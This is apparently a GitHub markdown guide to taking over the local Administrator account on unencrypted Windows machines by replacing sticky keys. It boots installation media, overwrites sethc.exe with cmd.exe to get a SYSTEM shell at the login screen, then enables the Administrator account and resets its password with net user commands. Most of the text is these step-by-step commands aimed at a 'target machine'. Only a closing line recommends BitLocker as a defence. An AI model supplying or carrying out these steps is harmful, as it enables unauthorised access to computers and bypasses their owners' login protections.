




This is an old but still relevant method of gaining access to an local Administrator account on any windows machine running Vista on-wards.

**Note: This method will only work when Bitlocker is not enabled on the machine.**

You can either use a live CD or Windows PE (From Windows installation media), this guide will use Windows PE.

 	* [Download Windows Media Creation Tool](https://www.microsoft.com/en-gb/software-download/windows10) and make a USB installer by following the instructions when launching the .exe (Any version is fine as we are not installing Windows).

 	* Change the boot priority of the device to use the USB before the OS Disk

 	Launch the Windows Installation Media and press SHIFT+F10 to launch a CMD prompt

 	Find the Windows OS volume by looking through the different drives, e.g.

 	Type "C:" -> "Dir" -> Replacing C: With D: etc...

 	* Once you have found the OS drive, Enter "cd X:/Windows/System32" (X: being the OS drive identified earlier)

 	We are going to replace the sticky keys executable with CMD, so when sticky keys is launched we open CMD instead

 	Make a backup of sticky keys with: copy sethc.exe ..

 	Overwrite sticky keys with CMD by entering: copy cmd.exe sethc.exe

 	* Reboot the machine without launching the Installation Media

 	Once windows is loaded up, press SHIFT 5 times to launch a CMD

 	By entering "whoami" you can see we are running as system

 	List the local users by typing "net user"

 	You can also run computer management if you prefer a GUI by entering: compmgmt.msc

 	Depending on the target machines configuration you may see the "Administrator" account, however, if best practises are followed this may have been renamed.

 	* You can check which groups an account is apart of by typing: net user USERACCOUNT

 	Assuming the Administator account hasn't been renamed, you can activate it with: net user Administrator /ACTIVE:Yes

 	Change the password of the Administrator account with: net user Administrator Password123

 	* You can now login to the device with the password in which you defined above

 	You can revert the changed sethc.exe while logged in by opening a CMD as admin and entering: robocopy c:\windows c:\windows\system32 sethc.exe /B

 	* /B instructs robocopy to use the Backup API, otherwise the operation will fail due to insufficient privileges

To mitigate the risk the risk of this happening to a machine in your environment you should use BitLocker to prevent access to the OS drive being the machine has booted up.
